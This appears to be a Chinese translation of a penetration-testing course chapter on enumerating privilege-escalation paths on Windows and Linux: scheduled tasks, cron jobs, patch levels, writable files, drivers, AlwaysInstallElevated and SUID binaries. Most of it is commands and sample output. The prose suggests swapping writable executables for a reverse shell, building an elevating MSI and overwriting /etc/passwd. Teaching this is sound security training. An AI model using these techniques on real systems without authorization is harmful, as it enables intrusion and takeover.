充当服务器的系统通常会定期执行各种自动化的计划任务。这些服务器上的调度系统通常具有某种令人困惑的语法，用于执行用户创建的可执行文件或脚本。当这些系统配置错误，或者用户创建的文件被遗留了不安全的权限时，我们可以修改这些将由调度系统以高权限级别执行的文件。

我们可以使用 `schtasks` ^466 命令在 Windows 上创建和查看计划任务。`/query` 参数显示任务，而 `/FO LIST` 将输出格式设置为简单的列表。我们还可以使用 `/V` 请求详细输出。

```
c:\Users\student>schtasks /query /fo LIST /v

Folder: \

INFO: There are no scheduled tasks presently available at your access level.

Folder: \Microsoft

INFO: There are no scheduled tasks presently available at your access level.

Folder: \Microsoft\Office

HostName:          CLIENT251

TaskName:         \Microsoft\Office\Office 15 Subscription Heartbeat

Next Run Time:    11/12/2019 3:18:24 AM

Status:           Ready

Logon Mode:       Interactive/Background

Last Run Time:    11/11/2019 3:49:25 AM

Last Result:      0

Author:           Microsoft Office

Task To Run:      %ProgramFiles%\Common Files\Microsoft Shared\Office16\OLicenseHeartbeat.exe

Start In:         N/A

Comment:          Task used to ensure that the Microsoft Office Subscription licensing is current.

Scheduled Task State: Enabled

Idle Time:        Disabled

Power Management: Stop On Battery Mode

Run As User:      SYSTEM

Delete Task If Not Rescheduled: Disabled

Stop Task If Runs X Hours and X Mins: 04:00:00

Schedule:          Scheduling data is not available in this format

Schedule Type:    Daily

Start Time:       12:00:00 AM

Start Date:       1/1/2010

End Date:         N/A

Days:             Every 1 day(s)

Months:           N/A

Repeat: Every:    Disabled

Repeat: Until: Time: Disabled

Repeat: Until: Duration: | Disabled

Repeat: Stop If Still Running: | Disabled
```

^466 (Microsoft, 2018), https://docs.microsoft.com/en-us/windows/win32/taskschd/schtasks

#### 列表 532 - 列出 Windows 上的所有计划任务

由 `schtasks` 生成的输出包含大量有用的信息，例如要运行的任务、下次运行的时间、上次运行的时间以及关于其运行频率的详细信息。

基于 Linux 的作业调度器被称为 `Cron`。^467 计划任务列在 `/etc/cron.*` 目录下，其中 `*` 代表任务运行的频率。例如，每天运行的任务可以在 `/etc/cron.daily` 中找到。每个脚本都列在其自己的子目录中。

```
student@debian:~$ ls -lah /etc/cron*

-rw-r--r--  1 root root 722 Oct  7 2017 /etc/crontab

/etc/cron.d:

-rw-r--r--  1 root root  285 May 29 2017 anacron

-rw-r--r--  1 root root  712 Jan  1 2017 php

-rw-r--r--  1 root root  102 Oct  7 2017 .placeholder

/etc/cron.daily:

-rwxr-xr-x  1 root root  311 May 29 2017 @anacron

-rwxr-xr-x  1 root root  539 Mar 30 2018 apache2

-rwxr-xr-x  1 root root  1.5K Sep 13 2017 apt-compat

-rwxr-xr-x  1 root root  355 Oct  25 2016 bsmandintults

-rwxr-xr-x  1 root root  384 Dec 12 2012 cracklib-runtime

-rwxr-xr-x  1 root root  1.6K Feb 22 2017 dpkg

-rwxr-xr-x  1 root root   89 May  5 2015 logrotate

-rwxr-xr-x  1 root root  1.1K Dec 13 2016 man-db

-rwxr-xr-x  1 root root  249 May 17 2017 passwd

-rw-r--r--  1 root root  102 Oct  7 2017 .placeholder
```


`/etc/cron.hourly`:
```
-rw-r--r--  1 root root  102 Oct  7 2017 .placeholder
```
/etc/cron.monthly:
```
-rwxr-xr-x  1 root root  313 May 29 2017 @anacron
-rw-r--r--  1 root root  102 Oct  7 2017 .placeholder
```
/etc/cron.weekly:
```
-rwxr-xr-x  1 root root  312 May 29 2017 @anacron
-rwxr-xr-x  1 root root  723 Dec 13 2016 man-db
-rw-r--r--  1 root root  102 Oct  7 2017 .placeholder
```

### 列表 533 - 列出 Linux 上的所有 cron 作业

列目录内容时，我们注意到有多个任务被安排每天运行。

值得注意的是，系统管理员通常会在 `/etc/crontab` 文件中添加他们自己的计划任务。由于该特定文件中的大多数作业都以 root 身份运行，因此应仔细检查这些任务的文件权限是否不安全。

467 (Wikipedia, 2019), https://en.wikipedia.org/wiki/Cron

```
student@debian:~$ cat /etc/crontab

SHELL=/bin/sh

PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin

# m h dom mon dow user   command

17 * * * *  root    cd / && run-parts --report /etc/cron.hourly

25 6  * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc /cron.daily )

47 6  * * 7  root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc /cron.weekly )

52 6  1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc /cron.monthly )

5 0 * * * root    /var/scripts/user_backups.sh
```

### 列表 534 - `/etc/crontab` 文件的示例

此示例揭示了一个以 root 身份运行的备份脚本。如果该文件权限较弱，我们可能能够利用此点来提升我们的权限。

### 18.1.1.8 枚举已安装的应用程序和补丁级别

在某个时刻，我们可能需要利用漏洞来提升本地权限。如果是这样，我们寻找可用漏洞的过程始于枚举所有已安装的应用程序，并记录每个应用程序的版本（以及在基于 Windows 的系统中记录操作系统的补丁级别）。我们可以使用这些信息来搜索匹配的漏洞利用工具。

手动搜索此信息可能非常耗时且低效。然而，我们可以利用功能强大的基于 Windows 的工具 `wmic`^468 来自动化 Windows 系统上的此过程。

`wmic` 工具提供了对 *Windows Management Instrumentation*^469 的访问，这是 Windows 上管理数据和操作的基础架构。

我们可以使用 `wmic` 配合 `product`^470 WMI 类参数，后跟 `get`，顾名思义，用于检索特定的属性值。然后我们可以选择我们感兴趣的属性，例如 `name`、`version` 和 `vendor`。

需要记住的一件重要事情是，`product` WMI 类仅列出由 *Windows Installer*^471 安装的应用程序。它不会列出未使用 Windows 安装程序的应用程序。

```
c:\Users\student>wmic product get name, version, vendor

Name                                       Vendor                      Version

Microsoft OneNote MUI (English) 2016       Microsoft Corporation       16.0.4266.1001

Microsoft Office OSM MUI (English) 2016    Microsoft Corporation       16.0.4266.1001

Microsoft Office Standard 2016             Microsoft Corporation       16.0.4266.1001
```


^468 (Microsoft, 2018), https://docs.microsoft.com/en-us/windows/win32/api/msdk/wmic

^469 (Microsoft, 2018), https://docs.microsoft.com/en-us/windows/win32/wmisdk/wmi-start-page

^470 (Microsoft, 2015) https://docs.microsoft.com/en-us/previous-versions/windows/desktop/legacy/aa394378(v=vs.85)

^471 (Microsoft, 2018), https://docs.microsoft.com/en-us/windows/win32/msi/windows-installer-portal

| 名称 | 公司 | 版本 | 构建 |
| :--- | :--- | :--- | :--- |
| Microsoft Office OSM UX MUI (English) 2016 | Microsoft Corporation | 16.0.4266.1001 | |
| Microsoft Office 共享安装元数据 MUI | Microsoft Corporation | 16.0.4266.1001 | |
| Microsoft Excel MUI (English) 2016 | Microsoft Corporation | 16.0.4266.1001 | |
| Microsoft PowerPoint MUI (English) 2016 | Microsoft Corporation | 16.0.4266.1001 | |
| Microsoft Publisher MUI (English) 2016 | Microsoft Corporation | 16.0.4266.1001 | |
| Microsoft Outlook MUI (English) 2016 | Microsoft Corporation | 16.0.4266.1001 | |
| Microsoft Groove MUI (English) 2016 | Microsoft Corporation | 16.0.4266.1001 | |
| Microsoft Word MUI (English) 2016 | Microsoft Corporation | 16.0.4266.1001 | |
| Microsoft Office 校对 (English) 2016 | Microsoft Corporation | 16.0.4266.1001 | |
| Microsoft Office 共享组件 MUI (English) 2016 | Microsoft Corporation | 16.0.4266.1001 | |
| Microsoft Office 校对工具 2016 – Microsoft 校对工具 Outils de vérification linguistique 2016 | Microsoft Corporation | 16.0.4266.1001 | |
| Microsoft Visual C++ 2017 x86 附加组件 | Microsoft Corporation | 14.12.25810 | |
| FortiClient | Fortinet Inc | 5.2.3.0633 | |
| Python 2.7.7.14 | Python Software Foundation | 2.7.14150 | |
| VMware Tools | VMware, Inc. | 10.3.10.1240696 | |
| Microsoft Visual C++ 2017 x86 最小配置 | Microsoft Corporation | 14.12.25810 | |
| Microsoft Visual C++ 2008 可再发行组件 | Microsoft Corporation | 9.0.30729.4148 | |

*列表 535 - 列出 Windows 上安装的所有应用程序*

关于已安装应用程序的信息可能有助于我们寻找特权提升攻击。

同样，更重要的是，`wmic` 还可以通过查询 `Win32_QuickFixEngineering` (`qfe`)[^472] WMI 类来列出系统范围的更新。

```bash
c:\Users\student>wmic qfe get Caption, Description, HotFixID, InstalledOn
```

| 标题 | 描述 | HotFixID | 安装日期 |
| :--- | :--- | :--- | :--- |
| http://support.microsoft.com/?kbid=4088785 | 安全更新 | KB82693643 | 4/7/2018 |
| http://support.microsoft.com/?kbid=4090914 | 更新 | KB4088785 | 3/31/2018 |
| http://support.microsoft.com/?kbid=4088776 | 安全更新 | KB4999914 | 3/31/2018 |
| http://support.microsoft.com/?kbid=4088776 | 更新 | KB4088776 | 3/31/2018 |

*列表 536 - 列出 Windows 上安装的所有安全补丁*

`HotFixID` 和 `InstalledOn` 信息的组合可以为我们提供目标 Windows 操作系统安全状态的精确指示。根据此输出，该系统最近未进行更新，这可能会使其更容易被利用。

基于 Linux 的系统使用多种包管理器。例如，基于 Debian 的 Linux 发行版使用 `dpkg`[^473]，而基于 Red Hat 的系统使用 `rpm`[^474]。

要列出在 Debian 系统上已安装（通过 dpkg）的应用程序，我们可以使用 `dpkg -l`。

```bash
student@debian:~$ dpkg -l
Desired=Unknown/Install/I
Remove
/Purge/Hold
| Status=Not/Inst/Conf-files
/Unpacked/half-cnf/half-inst/trig-aWait/Trig-pend
| / Err?= (none)/Reinst-required
(Status,Err:
uppercase=bad)
|| Name Version Architecture Description
+++=
=============
==========================
==========
======
=
=
===
=
i i acl 2.2.52-3+b1 i386 Access control list utilities
```


[^472]: (Microsoft, 2018). https://docs.microsoft.com/en-us/windows/win32/cimwin32prov/win32-quickfixengineering

[^473]: (Linux.die.net, 2003). https://linux.die.net/man/1/dpkg

[^474]: (Marc Ewing, 2003). https://linux.die.net/man/8/rpm

| | | | | |
|---|---|---|---|---|
| ii aduser | 3.1.15 | all | 添加和删除用户及组 | |
| ii adwaita-icon-theme | 3.22.0-1+deb9u1 | all | GNOME 默认图标主题 | |
| ii alsa-utils | 1.1.3-1 | i386 | 用于配置和 ... 的工具 | |
| ii anacron | 2.3-24 | i386 | 类似 cron 但不要求 ... 的程序 | |
| ii ant | 1.9.9-1 | all | 类似于 ma 的基于 Java 的构建工具 | |
| ii ant-optional | 1.9.9-1 | all | 类似于 ma 的基于 Java 的构建工具 | |
| i1 apache2 | 2.4.25-3+deb9u4 | i386 | Apache HTTP 服务器 | |
| ii apache2-bin | 2.4.25-3+deb9u4 | i386 | Apache HTTP 服务器 (模块 a ... | |
| ii apache2-data | 2.4.25-3+deb9u4 | all | Apache HTTP 服务器 (公共 fi ... | |
| ii apache2-utils | 2.4.25-3+deb9u4 | i386 | Apache HTTP 服务器 (实用程序 p ... | |
| | | | ... | |

*列表 537 - 列出 Debian Linux 操作系统上已安装的所有软件包*

这证实了我们之前的预期：Debian 机器实际上正在运行一个 Web 服务器。在这种情况下，它运行的是 `Apache2`。

### 18.1.1 9 枚举可读/可写的文件和目录

正如我们之前提到的，访问限制不足的文件可能会创建漏洞，从而可能使攻击者获得提权。这种情况最常发生在攻击者能够修改在特权账户上下文下执行的脚本或二进制文件时。

此外，非特权用户可读的敏感文件可能包含重要信息，例如数据库或服务账户的硬编码凭据。

由于手动检查每个文件和目录的权限是不现实的，我们需要尽可能自动化这一任务。

有许多实用程序和工具可以在 Windows 平台上帮助我们自动化这一任务。来自 SysInternals 的 `AccessChk`[^475] 可能是为此目的最知名且经常使用的工具。

在接下来的示例中，我们将演示如何使用 `AccessChk` 在 `Program Files` 目录中找到具有不安全文件权限的文件。请注意，目标二进制文件仅为演示此练习的目的而创建。

具体而言，我们将枚举 `Program Files` 目录，以查找允许 `Everyone`[^476] 组拥有写入权限的任何文件或目录。

我们将使用 `-u` 来抑制错误，`-w` 来搜索写入访问权限，并 `-s` 来执行递归搜索。由于该工具非常有用，其他选项也值得探索。

```text

c:\Tools\privilege_escalation\SysinternalsSuite>accesschk.exe -uws "Everyone" "C:\Program Files"

Accesschk v6.12 - Reports effective permissions for securable objects

Copyright (C) 2006-2017 Mark Russinovich

Sysinternals - www.sysinternals.com

Rw C:\Program Files\TestApplication\testapp.exe

```

[^475]: (Microsoft, 2017). https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk

[^476]: (Microsoft, 2019). https://docs.microsoft.com/en-us/windows/win32/secauthz/well-known-sids

*列表 538 - 列出指定目标中所有可写的文件和目录*

在上面的列表中，`AccessChk` 成功识别了一个可全局写入的可执行文件。如果此文件由特权用户或服务账户执行，我们可以尝试用我们选择的恶意文件（例如反向 shell）覆盖它，以提升我们的权限。我们将在本模块的后文展示一个类似的工作示例。

我们也可以使用 PowerShell 实现相同的目标。这在某些情况下非常有用，例如当我们可能无法在目标系统上传输和执行任意二进制文件时。

PowerShell 命令本身（如下在列表 539 中所示）可能看起来有点复杂，因此我们将逐步介绍这些选项。

我们要使用的主要 cmdlet 是 `Get-Acl`，它检索给定文件或目录的所有权限。然而，由于 `Get-Acl` 不能递归运行，我们还使用 `Get-ChildItem` cmdlet 先枚举 `Program Files` 目录下的所有内容。这将有效地检索目标目录中的每个对象及其所有相关访问权限。带有 `-match` 标志的 `AccessToString` 属性将结果缩小到我们正在寻找的特定访问属性。在我们的情况下，我们正在搜索任何可以被 `Everyone` 组成员修改 (`Modify`) 的对象。

```powershell

PS C:\Tools\privilege_escalation\SysinternalsSuite>Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\sModify"}

```

Directory: C:\Program Files\TestApplication

| 路径 | 所有者 | 访问 |
|---|---|---|
| **testapp.exe** | BUILTIN\Administrators | Everyone Allow Modify, Synchronize... |

*列表 539 - 使用 PowerShell 列出指定目标中所有可写的文件和目录*

在这种情况下，输出与 `AccessChk` 的输出相同。此命令序列允许额外的格式选项。

在 Linux 操作系统中，我们可以使用 `find`[^477] 来识别具有不安全权限的文件。

在下面的示例中，我们正在搜索目标系统上当前用户可写的每个目录。我们搜索整个根目录 (`/*`) 并使用 `-writable` 参数来指定我们感兴趣的属性。我们还使用 `-type d` 来定位目录，并使用 `2>/dev/null` 来过滤错误：

```bash

student@debian:~$ find / -writable -type d 2>/dev/null

/usr/local/james/bin

/usr/local/james/bin/lib

/proc/16195/task/16195/fd

/proc/16195/fd

/proc/16195/map_files

/home/student

/home/student/.gconf

```

[^477]: (Linux man-pages project, 2019), http://man7.org/linux/man-pages/man1/find.1.html


```text

/home/student/.gconf/apps

/home/student/.gconf/apps/gksu

/home/student/Music

/home/student/thinclient_drives

/home/student/Videos

/home/student/.pcsc11

/home/student/.gnupg

...
```


列表 540 - 列出 Linux 上所有可被全世界写入的目录

如上图所示，有几个目录似乎允许所有人写入，其中包括 `/usr/local/james/bin` 目录。这确实值得进一步调查。

## 18.1.1.10 枚举未挂载磁盘

在大多数系统中，磁盘在启动时会自动挂载。因此，人们很容易忘记那些未挂载但可能包含有价值信息的磁盘。我们应始终查找未挂载的磁盘，如果它们存在，则检查其挂载权限。

在基于 Windows 的系统中，我们可以使用 `mountvol` 命令来列出所有当前已挂载的磁盘以及已物理连接但未挂载的磁盘。

```
c:\Users\student>mountvol

Creates, deletes, or lists a volume mount point.

...

Possible values for VolumeName along with current mount points are:

    \\:?\Volume{25721a7f-0000-0000-0000-100000000000}\

    *** NO MOUNT POINTS ***

    \\:?\Volume{25721a7f-0000-8000-0000-602200000000}\

    C:\

    \\:?\Volume{78fa80a6-3519-11e8-a4dc-806e6f6e6963}\

    D:\
```

列表 541 - 列出 Windows 上所有可用的可挂载磁盘

在这种情况下，系统有两个挂载点，分别映射到 C: 和 D: 磁盘。我们还注意到，有一个卷的全局唯一标识符 GUID 为 `25721a7f-0000-0000-0000-100000000000`，但它没有挂载点。这可能很有趣，我们可能希望进一步调查。

在基于 Linux 的系统中，我们可以使用 `mount` 命令来列出所有已挂载的文件系统。此外，`/etc/fstab` 文件列出了将在启动时挂载的所有磁盘。

> 请记住，系统管理员可能使用了自定义配置或脚本来挂载那些未在 `/etc/fstab` 文件中列出的磁盘。

因此，良好的实践不仅是扫描 `/etc/fstab`，还要使用 `mount` 收集关于已挂载磁盘的信息。

```
student@debian:~$ cat /etc/fstab

# /etc/fstab: static file system information.

#

# <file system> <mount point> <type> <options> <dump> <pass>

# / was on /dev/sda1 during installation

UUID=fa336f7a-8cf8-4cd2-9547-2208b6cf58b7 / ext4 errors=remount-ro 0 1

# swap was on /dev/sda5 during installation

UUID=8b701d25-e29e-49dc-b61b-1b9047088150 none swap sw 0 0

/dev/sr0 /media/cdrom0 udf,iso9660 user,noauto 0 0
```

```
student@debian:~$ mount

sysfs on /sys type sysfs (rw,nosuid,nodev,noexec,relatime)

proc on /proc type proc (rw,nosuid,nodev,noexec,relatime)

udev on /dev type devtmpfs (rw,nosuid,relatime,size=505664k,nr_inodes=126416,mode=755)

depts on /dev/pts type devpts (rw,nosuid,noexec,relatime,gid=5,mode=620,ptmxmode=000)

tmpfs on /run type tmpfs (rw,nosuid,noexec,relatime,size=102908k,mode=755)

/dev/sda1 on / type ext4 (rw,relatime,errors=remount-ro,data=ordered)

securityfs on /sys/kernel/security type securityfs (rw,nosuid,nodev,noexec,relatime)

tmpfs on /dev/shm type tmpfs (rw,nosuid,nodev)

tmpfs on /run/lock type tmpfs (rw,nosuid,nodev,noexec,relatime,size=5120k)

tmpfs on /sys/fs/cgroup type tmpfs (ro,nosuid,nodev,noexec,mode=755)
```

列表 542 - 列出 Linux 上 `/etc/fstab` 的内容和所有已挂载磁盘

输出显示了一个交换分区和该 Linux 系统的主 ext4 磁盘。此外，我们可以使用 `lsblk` 查看所有可用的磁盘。

```
student@debian:~$ /bin/lsblk

NAME MAJ:MIN RM SIZE RO TYPE MOUNTPOINT

fd0 2:0 1 4K 0 disk

sda 8:0 0 5G 0 disk

├sda1 8:1 0 4.7G 0 part /

├sda2 8:2 0 1K 0 part

└sda5 8:5 0 334M 0 part [SWAP]
```

列表 543 - 在 Linux 上使用 lsblk 列出所有可用磁盘

我们注意到 `sda` 磁盘由三个不同的分区组成，这些分区带有编号。在某些情况下，显示系统中所有本地磁盘的信息可能会揭示未挂载的分区。根据系统配置，或错误配置，我们随后可能能够挂载这些分区，并搜索有趣的文档、凭据或其他允许我们提升权限或更好地在网络上立足的信息。

## 18.1.1.11 枚举设备驱动程序和内核模块

另一种常见的权限提升方法涉及利用设备驱动程序和内核模块。我们将在本模块稍后查看实际的利用技术，但让我们先看一下一种重要的枚举技术。由于该技术依赖于将漏洞与相应的利用工具匹配，我们需要编译一份目标系统上已加载的驱动程序和内核模块列表。

在 Windows 上，我们可以使用 `driverquery` 命令开始搜索。我们将提供 `/v` 参数以获取详细输出，并提供 `/fo csv` 以请求以 CSV 格式输出。

为了过滤输出，我们将在 PowerShell 会话中运行此命令。在 PowerShell 中，我们将把输出管道传输到 `ConvertFrom-CSV` 命令以及 `Select-Object`，这将允许我们选择特定的对象属性或包括“显示名称”、“启动模式”和“路径”在内的对象集合。

```
c:\Users\student> powershell

PS C:\Users\student> driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object 'Display Name', 'Start Mode', Path
```


| 显示名称 | 启动模式 | 路径 |
| :--- | :--- | :--- |
| 1394 OHCI Compliant Host Controller | 手动 | `C:\Windows\system32\drivers\1394ohci.sys` |
| 3ware | 手动 | `C:\Windows\system32\drivers\3ware.sys` |
| Microsoft ACPI Driver | 启动 | `C:\Windows\system32\drivers\ACPI.sys` |
| ACPI Devices driver | 手动 | `C:\Windows\system32\drivers\AcpiDev.sys` |
| Microsoft ACPI X Driver | 启动 | `C:\Windows\system32\Drivers\acpix.sys` |
| ACPI Processor Aggregator Driver | 手动 | `C:\Windows\system32\drivers\acpipaygr.sys` |
| ACPI Power Meter Driver | 手动 | `C:\Windows\system32\drivers\acpipm.sys` |
| ACPI Wake Alarm Driver | 手动 | `C:\Windows\system32\drivers\acpptime.sys` |
| ADP80XX | 手动 | `C:\Windows\system32\drivers\ADP80XX.sys` |

虽然这生成了已加载驱动程序的列表，但我们必须再采取一步来获取每个已加载驱动程序的版本号。我们将使用 `Get-WmiObject` 命令来获取 `Win32_PnPSignedDriver` WMI 实例，它提供有关驱动程序的数字签名信息。通过将通过管道传输输出到 `Select-Object`，我们可以枚举特定属性，包括 `DriverVersion`。此外，我们可以通过将输出管道传输到 `Where-Object`，基于名称专门针对某些驱动程序。

```text
PS C:\Users\student> Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMware*"}
DeviceName DriverVersion Manufacturer
------------------------------------------------------------
VMware VMCI Host Device 9.8.6.0 VMware, Inc.
VMware PVSCSI Controller 1.3.10.0 VMware, Inc.
VMware SVGA 3D 8.16.1.24 VMware, Inc.
VMware VMCI Bus Device 9.8.6.0 VMware, Inc.
VMware Pointing Device 12.5.7.0 VMware, Inc.
```

列表 545 - 在 Windows 上列出驱动程序版本

现在，既然我们有了所有已加载的 VMware 设备驱动程序及其相应版本号的列表，我们可以搜索这些特定驱动程序的利用工具。

在 Linux 上，我们可以使用 `lsmod` 而不附加任何参数来枚举已加载的内核模块。

```text
student@debian:~$ lsmod
Module Size Used by
fuse 90112 3
appletalk 32768 0
ax25 49152 0
ipx 28672 0
p8023 16384 1 ipx
p8022 16384 1 ipx
psnap 16384 2 appletalk, ipx
llc 16384 2 p8022, psnap
evdev 20480 5
vmm_balloon 20480 0
crc32_pclmul 16384 0
...
i2c_pix4 20480 0
libata 192512 2 ata_p_ix, ata_generic
scsi_mod 180224 4 sd_mod, libata, sg, vmm_pvscsi
floppy 57344 0
```

列表 546 - 在 Linux 上列出已加载的驱动程序

一旦我们有了已加载模块的列表并确定了需要更多信息的模块（例如上述示例中的 `libata`），我们可以使用 `modinfo` 来了解更多关于特定模块的信息。请注意，此工具需要完整路径名才能运行。

```text
student@debian:~$ /sbin/modinfo libata
filename:
/lib/modules/4.9.0-6-686/kernel/drivers/ata/libata.ko
version:
3.00
license:
GPL
description:
Library module for ATA devices
author:
Jeff Garzik
```

* ⁴⁷⁸ (Microsoft, 2017), https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/mountvol
* ⁴⁷⁹ (Linux.die.net, 2003), https://linux.die.net/man/8/mount
* ⁴⁸⁰ (Geek University, 2019), https://geek-university.com/linux/etc-fstab-file/
* ⁴⁸¹ (Linux die.net, 2003) https://linux.die.net/man/8/lsblk
* ⁴⁸² (Microsoft, 2017), https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/driverquery
* ⁴⁸³ (Microsoft, 2017), https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/convertfrom-csv
* ⁴⁸⁴ (Microsoft, 2017), https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/select-object
* ⁴⁸⁵ (Microsoft, 2017), https://docs.microsoft.com/en-us/powershell/module/microsoft.wmi.management.get-wmiobject/get-wmiobject
* ⁴⁸⁶ (Microsoft, 2017), https://docs.microsoft.com/en-us/windows/win32/cimwin32prov/win32-pnpsigneddriver
* ⁴⁸⁷ (Microsoft, 2017), https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/where-object?view=powershell-6

srcversion: 7D0876C4A3FEBAB6219DD851
depends: scsi_mod
retpoline: Y
intree: Y
vermagic: 4.9.0-6-686 SMP mod_unload modversions 686
parm: zpodd_poweroff_delay:ZPODD 的断电延迟时间（以秒为单位）(int)

> 列表 547 - 列出 Linux 下关于模块的附加信息

与上文演示的 Windows 情况类似，在获取驱动列表及其版本后，如果存在相关漏洞，我们将处于更有利的位置去发现它们。

### 18.1.1.12 枚举自动提升权限的二进制文件

在本模块的后续部分，我们将探讨各种权限提升方法。然而，在本节中，我们应该涵盖一些特定的枚举操作，这些操作可能揭示某些操作系统特定的权限提升“捷径”。

首先，在 Windows 系统上，我们应该检查 `AlwaysInstallElevated`⁴⁸⁸ 注册表设置的状态。如果此键在 `HKEY_CURRENT_USER` 或 `HKEY_LOCAL_MACHINE` 中处于启用状态（设置为 1），任何用户都可以以提升的权限运行 Windows Installer 包。

我们可以使用 `reg query` 来检查这些设置：

```


`c:\Users\student>reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer`

`HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer`

  `AlwaysInstallElevated` `REG_DWORD` `0x1`

`c:\Users\student>reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer`

`HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer`

  `AlwaysInstallElevated` `REG_DWORD` `0x1`

> 列表 548 - 在 Windows 上查询 `AlwaysInstallElevated` 注册表值

如果此设置已启用，我们可以制作一个 MSI 文件并运行它以提升我们的权限。

类似地，在基于 Linux 的系统上，我们可以搜索 `SUID` 文件。

通常，运行可执行文件时，它会继承运行该文件的用户的权限。但是，如果设置了 SUID 权限，该二进制文件将以文件所有者的权限运行。这意味着，如果一个二进制文件设置了 SUID 位且该文件由 root 所有，那么任何本地用户都能以提升的权限执行该二进制文件。

⁴⁸⁸ (Microsoft, 2018). https://docs.microsoft.com/en-us/windows/win32/msi/alwaysinstallelevated

⁴⁸⁹ (Microsoft, 2018). https://www.linux.com/tutorials/what-suid-and-how-set-suid-linuxunix/

我们可以使用 `find` 命令搜索标记为 SUID 的二进制文件。在这种情况下，我们从根目录（`/`）开始搜索，查找设置了 SUID 位的文件（`-type f`），（`-perm -u=s`），并丢弃所有错误消息（`2>/dev/null`）。

```
student@debian:~$ find / -perm -u=s -type f 2>/dev/null

/usr/lib/eject/dmcrypt-get-device

/usr/lib/openssh/ssh-keysign

/usr/lib/polkit-1/polkit-agent-helper-1

/usr/lib/dbus-1.0/dbus-daemon-launch-helper

/usr/lib/Xorg/Xorg.wrap

/usr/sbin/userhelper

/usr/bin/passwd

/usr/bin/sudo

/usr/bin/chfn

/usr/bin/newgrp

/usr/bin/pkexec

/usr/bin/gpasswd

/usr/bin/chsh

/bin/mount

/bin/su

/bin/fusermount

/bin/umount

/bin/ntfs-3g

/bin/ping
```

*列表 549 - 在 Linux 上搜索 SUID 文件*

在这种情况下，该命令发现了多个 SUID 二进制文件。SUID 二进制文件的利用方式会因多种因素而异。例如，如果 `/bin/cp`（复制命令）是 SUID 的，我们可以复制并覆盖敏感文件，如 `/etc/passwd`。

### 18.1.1.13 练习

- 1. 在你的专用 Windows 和 Linux 客户端上执行本节中涵盖的各种手动枚举方法。尝试对本节中使用的工具和命令的各种选项进行实验。

#### 18.1.2 自动化枚举

显然，每个操作系统都包含大量可用于进一步攻击的信息。无论目标操作系统如何，手动收集这些详细信息可能相当耗时。幸运的是，我们可以使用各种脚本来自动化此过程。

在 Windows 上，其中一个这样的脚本是 `windows-privesc-check`，⁴⁰⁰ 它可以在 `windows-privesc-check` Github 仓库中找到。⁴⁰¹ 该仓库已经包含由 PyInstaller 生成的 Windows 可执行文件，但也可以根据需要重新构建。

使用 `-h` 标志运行可执行文件会向我们展示以下帮助菜单：

```
C:\Tools\privilege_escalation\windows-privsc-check-master>windows-privsc-check2.exe -h
```


`windows-privesc-check` v2.0 ([http://pentestmonkey.net/windows-privesc-check](http://pentestmonkey.net/windows-privesc-check))

Usage: `windows_privesc_check.exe` (--dump [ dump opts] | --dumptab | --audit) [examine opts] [host opts] -o report-file-stem

Options:
- --version show program's version number and exit
- -h, --help show this help message and exit
- --dump Dumps info for you to analyse manually
- --dumptab Dumps info in tab-delimited format
- --audit Identify and report security weaknesses
- --pyshe ll Start interactive python shell

examine opts:
At least one of these to indicate what to examine (*=not implemented)
- -a, --all All Simple Checks (non-slow)
- -A, --allfiles All Files and Directories (slow)
- -D, --drives Drives
- -e, --reg_keys Misc security-related reg keys
- -E, --eventlogs Event Log*
- -F INTERESTING_FILE_LIST, --interestingfiledir=INTERESTING_FILE_LIST
- Changes -A behaviour. Look here INSTEAD
- -F INTERESTING_FILE_FILE, --interestingfilefile=INTERESTING_FILE_FILE
- Changes -A behaviour. Look here INSTEAD. On dir per line
- -G, --groups Groups
- -H, --shares Shares
- -I, --installed_software Installed Software
- -j, --tasks Scheduled Tasks
- -K, --drivers Kernel Drivers
- ...

*列表 550 - 由 PyInstaller 输出的可执行文件*

该工具接受许多选项，但我们将通过一些快速示例进行说明。首先，我们将列出有关系统中用户组的信息。我们将指定不言自明的 `--dump` 以查看输出，并使用 `-G` 列出组。

```
c:\\Tools\\privelege_escalation\\windows-privesc-check-master> windows-privesc-check2.exe --dump -G

windows-privesc-check v2.0 (http://pentestmonkey.net/windows-privesc-check)

[i] TSUserEnabled registry value is 0. Excluding TERMINAL SERVER USER

Considering these users to be trusted:

* BUILTIN\Power Users

* BUILTIN\Administrators

* NT SERVICE\TrustedInstaller

* NT AUTHORITY\SYSTEM

[i] Running as current user. No logon creds supplied (-u, -D, -p).

...

========== Starting Audit at 2019-09-22 12:45:56 ==========
```


[+] Running: `dump_misc_checks`

[+] Host is not in domain

[+] Checks completed

[+] Running: `dump_groups`

[+] Dumping group list:

`BUILTIN\Administrators` has member: `CLIENT251\Administrator`

`BUILTIN\Administrators` has member: `CLIENT251\admin`

`BUILTIN\Administrators` has member: `[unknown]\$-1-5-21-2175734670-1758985447-1278008508`

`BUILTIN\Administrators` has member: `[unknown]\$-1-5-21-2175734670-1758985447-1278008508`

`BUILTIN\Guests` has member: `CLIENT251\Guest`

`BUILTIN\IIS_IUSRS` has member: `NT AUTHORITY\IUSR`

`BUILTIN\Remote Desktop Users` has member: `CLIENT251\student`

`BUILTIN\Users` has member: `NT AUTHORITY\INTERACTIVE`

`BUILTIN\Users` has member: `NT AUTHORITY\Authenticated Users`

`BUILTIN\Users` has member: `CLIENT251\student`

`BUILTIN\Users` has member: `[unknown]\$-1-5-21-2175734670-1758985447-1278008508-513`

[+] Checks completed

*列表 551 - windows-privesc-check 输出*

